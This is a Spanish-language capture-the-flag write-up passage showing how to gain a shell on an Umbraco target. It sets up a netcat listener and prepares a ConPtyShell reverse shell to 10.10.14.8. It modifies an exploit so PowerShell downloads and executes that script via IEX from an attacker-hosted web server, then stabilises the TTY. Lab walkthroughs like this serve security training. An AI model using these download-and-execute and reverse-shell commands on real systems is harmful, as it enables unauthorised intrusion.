 ## Vuln exploit & Gaining Access {-}

### Umbraco {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Recuperamos conPtyShell

    ```bash
    git clone https://github.com/antonioCoco/ConPtyShell
    cd ConPtyShell
    cp invoke-ConPtyShell.ps1 ../conptyshell.ps1
    cd ..
    vi conptyshell.ps1
    ```

1. Añadimos al final del fichero el commando

    ```powershell
    Invoke-ConPtyShell -RemoteIp 10.10.14.8 -RemotePort 443 -Rows 52 -Cols 189
    ```

1. Creamos un servidor http con python

    ```bash
    python -m http.server 80
    ```

1. Modificamos el commando a lanzar en el umbraco_exploit.py

    ```python
    proc.StartInfo.FileName = "cmd.exe"
    cmd = "/c powershell IEX(New-Object Net.WebClient).downloadString(\'http://10.10.14.8/conptyshell.ps1\')"
    ```

1. Lanzamos el script

    ```bash
    python3 umbraco_exploit.py
    ```

Aqui vemos que hemos ganado acceso al systema como el usuario **defaultappool** con una shell totalmente interactiva.

### Tratamiento de la TTY {-}

```bash
^Z
stty raw -echo; fg
Enter
whoami
whoami
cd C:\
cd C:\
```

Aqui ya podemos ver la flag en el directorio Public.
